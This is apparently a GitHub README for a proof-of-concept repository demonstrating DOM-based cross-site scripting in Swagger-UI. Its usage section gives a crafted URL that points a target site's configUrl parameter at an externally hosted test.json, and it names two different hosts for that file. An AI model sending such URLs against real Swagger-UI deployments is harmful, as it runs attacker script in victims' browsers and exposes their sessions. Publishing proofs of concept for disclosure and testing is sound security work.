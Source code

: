 # Swagger-UI DOM Based XSS POC

This repository serves as a Proof of Concept (POC) for demonstrating **DOM-based Cross-Site Scripting (XSS)** vulnerabilities in Swagger-UI


# Usage
Add `https://wh02m1.github.io/Swagger-UI-XSS/test.json` to the **configUrl** parameter.
It will be like this `https://domain/endpoint?configUrl=https://jumpy-floor.surge.sh/test.json`

